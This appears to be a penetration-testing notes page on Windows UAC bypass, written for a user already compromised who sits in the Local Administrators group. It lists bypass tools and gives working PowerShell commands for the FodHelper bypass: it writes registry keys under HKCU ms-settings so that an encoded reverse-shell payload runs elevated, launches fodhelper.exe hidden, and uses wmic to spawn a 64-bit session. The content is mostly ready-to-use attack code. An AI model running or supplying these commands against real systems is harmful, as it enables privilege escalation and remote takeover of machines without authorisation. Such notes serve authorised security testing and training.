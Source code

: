 
### Overview
---
A compromised user may not be the Administrator user, but they may still be in the Local Administrators group.  Exploiting this requires a UAC bypass to execute commands and programs elevated.


### Exploitation Example
---
- There are an abundance of UAC bypasses; too many to cover.  Nothing is guaranteed to work, so you just have to find out what UAC bypass is possible on your compromised host.

- Example UAC Bypasses:
	- ``Invoke-EventVwrBypass`` (part of ``PowerUp.ps1``)
	- ``UACMe`` (https://github.com/hfiref0x/UACME)
	- ``FodHelper.exe`` UAC Bypass (example below)


**FodHelper UAC Bypass:**
- Requirements
```powershell
# Validate session is 64-bit
[Environment]::Is64BitProcess

# If above command returns "False", create new 64-bit session
wmic.exe process call create "powershell -nop -ex bypass -e <encoded_powershell_reverse_shell>"
```
- Exploit
```powershell
# Payload to execute
$RevShell = "powershell -nop -ex bypass -e <encoded_powershell_reverse_shell>"

# Create registry structure
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $RevShell -Force
 
# Perform the UAC bypass
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
